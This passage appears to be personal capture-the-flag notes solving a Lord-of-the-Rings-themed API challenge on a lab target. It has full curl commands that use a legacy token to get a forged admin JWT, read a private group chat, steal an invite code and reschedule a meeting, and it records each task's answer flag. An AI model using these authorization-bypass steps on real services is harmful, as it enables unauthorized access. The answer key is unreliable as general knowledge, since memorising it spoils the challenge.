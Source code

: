     `curl -X 'POST' "https://one-request.malteksolutions.com/palantir/glimpse"   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcGlfdmVyc2lvbiI6ImxlZ2FjeSIsInVzZXJfaWQiOiIxOTRlZjkxNS1jZjZiLTRkNzQtYmI1Yi1mMzY4MTJiNGQ4OWMiLCJuYW1lIjoiQSBuYW1lbWVuIiwiZW1haWwiOiJuYW1lbWVuQGV4YW1wbGUuY29tIiwicm9sZSI6ImRlbGV0ZWQiLCJleHBpcmVzIjoxNzUyNjU4NTUzLjQ3MzcyNn0.U1mau0A3aFZNZQAth1kXT8nsqrac4J9huMz4eivPnCk'` -> new token
    -> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiMTk0ZWY5MTUtY2Y2Yi00ZDc0LWJiNWItZjM2ODEyYjRkODljIiwibmFtZSI6IkFETUlOIiwiZW1haWwiOiJyb290QHBhbGFudGlyIiwicm9sZSI6IlBBTEFOVElSIiwiZXhwaXJlcyI6MTc1MjQ4NzUzOC45MDYzMjI3fQ.j5rUHLAi8d8fPgcPbTiMw2RcqH6KqYXOk-UuVBOZi_8
    - **Answer:** eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiMTk0ZWY5MTUtY2Y2Yi00ZDc0LWJiNWItZjM2ODEyYjRkODljIiwibmFtZSI6IkFETUlOIiwiZW1haWwiOiJyb290QHBhbGFudGlyIiwicm9sZSI6IlBBTEFOVElSIiwiZXhwaXJlcyI6MTc1MjQ4NzUzOC45MDYzMjI3fQ.j5rUHLAi8d8fPgcPbTiMw2RcqH6KqYXOk-UuVBOZi_8

1) Task 5: Objective: Locate the perfect ambush site that meets our strategic requirements.
      Locations where Celebrimbor has left a review /v2/locations/
      - 7e63c222-fa15-4e47-ae2f-e77d27a1a8ce
      - 8cf1411d-f363-4945-ae81-b2aa8250de47
      - e530a538-bbb5-4134-b689-f45fea255358
      - 9169c041-b4e1-41e4-96ac-9834ec30a8e8
      - 8baa8110-68ac-4449-9437-882505537153
      - 1273b3dd-34c0-421e-9c3c-8d79f67742ab
      - 95cb196c-a61a-43fb-baa4-d1f06baeebfb
      No good answer - review texts are they a sign?
      - **Answer:** 1273b3dd-34c0-421e-9c3c-8d79f67742ab
1) Task 6: Objective: Use your newly forged PALANTIR token to uncover the original activity's invite code before your access expires.
      - group id: 737530c6-7980-42d7-8c8f-9ace9949dfba
      - get new token
      `curl -X 'POST' "https://one-request.malteksolutions.com/palantir/glimpse"   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcGlfdmVyc2lvbiI6ImxlZ2FjeSIsInVzZXJfaWQiOiIxOTRlZjkxNS1jZjZiLTRkNzQtYmI1Yi1mMzY4MTJiNGQ4OWMiLCJuYW1lIjoiQSBuYW1lbWVuIiwiZW1haWwiOiJuYW1lbWVuQGV4YW1wbGUuY29tIiwicm9sZSI6ImRlbGV0ZWQiLCJleHBpcmVzIjoxNzUyNjU4NTUzLjQ3MzcyNn0.U1mau0A3aFZNZQAth1kXT8nsqrac4J9huMz4eivPnCk'`
      - check group chat or pwd:
      `curl -X 'GET' "https://one-request.malteksolutions.com/palantir/groups/737530c6-7980-42d7-8c8f-9ace9949dfba/chats"   -H 'accept: application/json'   -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoiMTk0ZWY5MTUtY2Y2Yi00ZDc0LWJiNWItZjM2ODEyYjRkODljIiwibmFtZSI6IkFETUlOIiwiZW1haWwiOiJyb290QHBhbGFudGlyIiwicm9sZSI6IlBBTEFOVElSIiwiZXhwaXJlcyI6MTc1MjQ5MTEwNi45MjEzNTE0fQ.lGBjDvF4F8hSPR_U-ivdlgN0ERmCtFluCDnry-RRAXw'`
      - **Answer:** onerequest{mellon}
1) Task 7: Objective: Craft the ultimate request that will redirect the meeting and set our trap for the Moonstone exchange
      - group id: 737530c6-7980-42d7-8c8f-9ace9949dfba
      - activity id: fd78acfc-7839-4fee-b654-31a6209e4cb0
      - location id: 1273b3dd-34c0-421e-9c3c-8d79f67742ab
      - invite code: one-request{mellon}
      - uudi: ccb14650-5388-4d90-abcb-df0f388817c3
      - ```
        curl -X 'POST' \
        'https://one-request.malteksolutions.com/one/request/groups/737530c6-7980-42d7-8c8f-9ace9949dfba/activities/fd78acfc-7839-4fee-b654-31a6209e4cb0/schedule/1273b3dd-34c0-421e-9c3c-8d79f67742ab' \
        -H 'accept: application/json' \
        -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcGlfdmVyc2lvbiI6ImxlZ2FjeSIsInVzZXJfaWQiOiIxOTRlZjkxNS1jZjZiLTRkNzQtYmI1Yi1mMzY4MTJiNGQ4OWMiLCJuYW1lIjoiQSBuYW1lbWVuIiwiZW1haWwiOiJuYW1lbWVuQGV4YW1wbGUuY29tIiwicm9sZSI6ImRlbGV0ZWQiLCJleHBpcmVzIjoxNzUyNjYzNDA3LjkzMzY0Mjl9.wo5X7iSsgDv71LAKKZffHfu8fHlnhHSquqqZy9CX4R8' \
        -H 'Content-Type: application/json' \
        -d '{
        "invite_code": "onerequest{mellon}",
        "user_id": "ccb14650-5388-4d90-abcb-df0f388817c3"
      }'
      ```
      -> admin key is not authorized for PALANTIR use
      - get new token